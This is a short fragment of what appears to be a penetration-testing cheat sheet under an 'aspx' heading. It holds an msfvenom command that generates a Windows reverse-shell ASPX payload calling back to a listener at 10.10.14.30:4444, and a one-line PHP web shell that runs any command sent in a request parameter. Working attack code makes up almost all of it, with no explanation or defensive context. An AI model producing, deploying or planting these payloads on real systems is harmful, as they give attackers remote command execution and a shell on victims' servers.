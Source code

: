 ### aspx
`msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.30 LPORT=4444 -o reverse-shell.aspx`

<?php system($_REQUEST["cmd"]); ?>
